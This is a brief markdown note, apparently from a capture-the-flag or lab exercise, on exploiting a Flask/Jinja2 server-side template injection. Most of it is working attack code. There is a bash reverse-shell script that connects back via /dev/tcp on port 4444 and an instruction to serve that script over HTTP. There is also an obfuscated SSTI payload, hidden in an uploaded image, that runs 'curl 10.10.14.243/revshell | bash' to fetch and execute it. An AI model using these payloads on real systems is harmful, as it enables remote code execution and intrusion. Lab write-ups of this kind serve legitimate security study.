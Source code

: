# Reference

[This link](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

Without refering to the above I would not be able to get reverse shell to the machine

# Reverse Shell

#!/bin/bash
bash -c "bash -i >& /dev/tcp/IP/4444 0>&1"

then host the file with `python3 -m http.server 80`

# Payload

put the below into an image file and upload to the website
`{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.14.243/revshell | bash")|attr("read")()}}`
